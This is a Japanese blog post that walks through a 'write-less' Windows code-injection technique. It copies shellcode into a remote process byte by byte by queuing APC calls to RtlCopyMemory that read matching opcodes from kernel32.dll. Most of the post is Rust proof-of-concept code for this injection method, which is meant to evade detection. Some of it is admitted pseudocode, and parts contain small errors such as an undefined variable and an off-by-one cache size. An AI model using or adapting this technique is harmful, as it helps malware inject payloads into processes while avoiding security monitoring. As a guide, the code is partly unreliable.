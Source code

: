 +++
title = "Write系コールを使わずにリモートプロセスにメモリをコピーする"
template = "page.html"
date = 2021-04-28T13:00:00Z
slug = "writeless-copy-memory"
[extra]
summary = " "
+++

### 概要

マルウェアのインジェクションについて調べていたら、面白い記事を発見しました。

> [Inject Me x64 Injection-less Code Injection](https://www.deepinstinct.com/2019/07/24/inject-me-x64-injection-less-code-injection/)

インジェクションレスなインジェクション？ は？

冗談はさておき、従来のアプローチである`WriteProcessMemory`や`NtMapViewOfSection`などを使用せずに、リモートプロセスにメモリをコピーすることが出来るようです。

記事中では複雑な手順と書かれていましたが、読んでみるとそこまで大した複雑さではありませんでした。

簡単に手順をまとめると次のようになります。

1. Sleep関数を呼ぶリモートスレッドを一時停止状態で作成する
2. `RtlCopyMemory`の関数ポインタを見つける
3. `NtQueueApcThreadEx`のAPCルーチンに`RtlCopyMemory`を指定し、3つのパラメータを埋める
4. `WaitForSingleObjectEx`または類似の関数をコールして、スレッドのアラートをトリガーする

さて、これを見ると一見簡単そうに見えますが、お気づきになりましたでしょうか。

3の手順の`RtlCopyMemory`で、`src`はどうするの？という話です。

`RtlCopyMemory`はリモートプロセスでコールされるため、`src`に渡す仮想アドレスはリモートプロセス内の仮想アドレスを指すことになります。

例えば自分のプロセス内にあるシェルコードのバッファーをコピーしたい時、これをどのように渡すのでしょうか？

これの解決策は、システムDLLのロード仕様を悪用する、が答えです。

`kernel32.dll`や`ntdll.dll`は、全てのプロセスで同じ仮想アドレスの場所に配置される仕様があります。

これを利用し、システムDLLのバッファー内にあるOPコードを1バイトずつコピーすることが出来ます。

`NtQueueApcThreadEx`を呼び出す回数 = APCキューの数 = コピーしたいメモリの長さ になります。

### PoCコード

```rust
unsafe fn queueing<F: Fn(HANDLE) -> Result<()>>(hp: HANDLE, sleep: PVOID, closure: F) -> Result<()> {
    // スレッドを一時停止状態のフラグ付きで作成
    // Sleep関数を開始ルーチンに設定し、1msだけSleepするようにパラメータを渡す
    let h_thread = CreateRemoteThread(
        hp,
        null_mut(),
        0,
        std::mem::transmute(sleep),
        1u32 as _,
        0x4,
        NULL as _,
    );

    if h_thread.is_null() {
        bail!("CreateRemoteThread failed.");
    } else {
        println!("created thread. thread_id {}", thread_id);
    };

    // コピー処理クロージャ
    closure(h_thread)?;

    // スレッドの一時停止状態を解除
    ResumeThread(h_thread);

    // スレッドのアラートをトリガーすることで、APCキューが一つずつ処理されていく
    WaitForSingleObjectEx(h_thread, 0xFFFFFFFF, true as _);

    Ok(())
}

unsafe fn copy_by_apc(h_thread: HANDLE, RtlCopyMemory: PVOID, src: PVOID, dst: PVOID, size: usize) {
    // RtlCopyMemoryをAPCルーチンに設定
    // コピー先とコピー元の引数を間違えないように注意
    NtQueueApcThreadEx(h_thread, null_mut(), transmute(RtlCopyMemory), dst, src, size as _);
}

// OPコードはu8、つまり0x00~0xFFであることは事前にわかっているため、
// 同じOPコードを何度も探しに行かなくて済むように探索結果をキャッシュ出来る
use std::lazy::OnceCell;
static mut CACHE: OnceCell<[*mut c_void; 0xFF]> = OnceCell::new();
 
unsafe fn get_op_by_module(module: PVOID, op: u8) -> Result<*mut c_void> {
    // CACHEが初期化されてない場合、初期化
    // これを呼ばずに先に初期化できるといいんですけど...
    let _ = CACHE.get_or_init(|| {
        zeroed::<[*mut c_void; 0xFF]>()
    });

    let cache = CACHE.get_mut().unwrap();

    if cache[op as usize].is_null() {
        let nt_header = (module as u64
            + (*(module as *mut IMAGE_DOS_HEADER)).e_lfanew as u64)
            as *mut IMAGE_NT_HEADERS64;

        for i in 0 .. (*nt_header).OptionalHeader.SizeOfImage {
            if *((module as u64 + i as u64) as *mut u8) == op {
                let op_addr = (module as u64 + i as u64) as *mut c_void;

                // ここでCACHEに結果を保存
                cache[op as usize] = op_addr;
                return Ok(op_addr);
            }
        }
    } else {
        // CACHEに結果が既にある場合はそのアドレスを使用する
        return Ok(cache[op as usize]);
    }

    bail!("not found op in module")
}
```

#### 使用例

一部疑似コードのため、そのままでは動きません。

```rust
// 使用例
unsafe fn main() -> Result<()> {
    let dst: Vec<u8> = get_binary_from_somewhere... ;
    let kernel32 = load_library...("kernel32.dll\x00");
    let sleep = get_function...(kernel32, "Sleep\x00");
    let rtl_copy_memory= get_function...(kernel32, "RtlCopyMemory\x00");
 
    let hp = OpenProcess... ;
    let allocated = VirtualAllocEx... ;
 
    queueing(hp, sleep, |ht| {
        for (i, op) in dst.iter().enumerate() {
            let op_addr = get_op_by_module(kernel32, *op)?;
            copy_by_apc(ht, rtl_copy_memory, op_addr, (allocated as u64 + i as u64) as _, 1);
        }
        Ok(())
    })?;
 
    Ok(())
}
```

これで、従来のようなメモリコピー手順をしなくてもリモートプロセスにメモリをコピー出来ます。

参考: [Inject Me x64 Injection-less Code Injection](https://www.deepinstinct.com/2019/07/24/inject-me-x64-injection-less-code-injection/)
